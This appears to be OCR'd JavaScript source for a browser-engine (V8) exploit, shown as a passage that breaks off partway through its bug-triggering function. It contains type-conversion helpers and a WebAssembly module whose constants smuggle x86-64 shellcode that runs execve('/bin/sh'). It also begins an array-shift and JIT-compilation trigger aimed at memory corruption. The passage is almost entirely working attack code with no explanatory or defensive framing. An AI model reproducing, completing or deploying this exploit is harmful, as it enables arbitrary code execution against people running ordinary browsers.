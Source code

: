 ```javascript
const __buf = new ArrayBuffer(8);
const __f64_buf = new Float64Array(__buf);
const __u32_buf = new Uint32Array(__buf);

// typeof(val) = float
function ftoi(val) {
    __f64_buf[0] = val;
    return BigInt(__u32_buf[0]) + (BigInt(__u32_buf[1]) << 32n); // Watch for little endianness
}

// typeof(val) = BigInt
function itof(val) {
    __u32_buf[0] = Number(val & 0xffffffffn);
    __u32_buf[1] = Number(val >> 32n);
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
    console.assert(x);
}

////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////


var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f1 = wasm_instance.exports.main;

function exploit() {

    let push_obj = [420];
    let arr = [1.1]; 

    for(let i=0;i<120;i++){
        arr.push(push_obj);
    }
    
    function bug(){
        arr.shift()                                             // move the array.    
        
        for (let i = 0; i < 10000; i++) { console.i += 1; }     // Trigger the compilation job
```